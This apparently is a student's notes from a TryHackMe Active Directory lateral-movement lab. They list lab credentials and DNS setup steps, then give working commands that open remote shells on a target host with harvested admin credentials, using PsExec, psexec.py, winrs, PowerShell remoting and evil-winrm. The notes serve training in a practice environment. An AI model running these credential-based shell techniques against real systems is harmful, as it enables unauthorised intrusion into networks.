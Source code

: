 '''scope
THMDC - 10.200.71.101
Initial Credentials - http://distributor.za.tryhackme.com/creds
Elevated Credentials - http://distributor.za.tryhackme.com/creds_t2 
'''

## Exploitaiton:
- Added the DNS IP address of THMDC in `/etc/systemd/resolved.conf`
- Restarted the service
```bash
systemctl restart systemd-resolved
```

- If this didnt work revert the file `/etc/systemd/resolved.conf` to normal and add the IP in `/etc/resolv.conf` in nameserver
- Got the credentials
	barbara.taylor:Knockers2015?
---------------------------------------------------------------------------------
- This is assumed breach so we have admin creds as well
	ZA.TRYHACKME.COM\t1_leonard.summers:EZpass4ever
- Got in using
```bash
ssh za\\barbara.taylor@thmjmp2.za.tryhackme.com
```

- We can see the methods we can use to gain a shell on the system
- `Psexec`
- We can use `psexec` to get a shell on port 445 (SMB) on THMIIS Server using out THMJMP2 machine which we have SSH access to and we can try kali machine as well
```bash
# Windows
.\PsExec64.exe \\thmiis.za.tryhackme.com -u t1_leonard.summers -p EZpass4ever -i cmd.exe 

# Kali
psexec.py t1_leonard.summers@10.200.71.201 
```

- `WinRM`
- We can use WinRM to get shell as well
```bash
# CMD
winrs.exe -u:t1_leonard.summers -p:EZpass4ever -r:thmiis.za.tryhackme.com cmd 

# Powershell
$username = 't1_leonard.summers'
$password = 'EZpass4ever'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

Enter-PSSession -Computername thmiis.za.tryhackme.com -Credential $credential
Invoke-Command -Computername thmiis.za.tryhackme.com -Credential $credential -ScriptBlock {ipconfig}

# Kali
evil-winrm -i 10.200.71.201 -u "t1_leonard.summers" -p "EZpass4ever"
```
